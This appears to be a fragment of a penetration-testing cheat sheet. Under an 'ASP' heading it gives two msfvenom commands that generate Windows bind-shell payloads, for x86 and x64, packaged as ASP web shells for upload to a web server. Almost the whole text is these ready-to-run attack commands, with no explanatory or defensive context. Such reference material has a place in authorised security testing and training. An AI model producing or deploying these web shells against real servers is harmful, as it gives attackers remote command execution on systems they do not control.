 # ASP

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o shell-x86.asp`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o shell-x64.asp`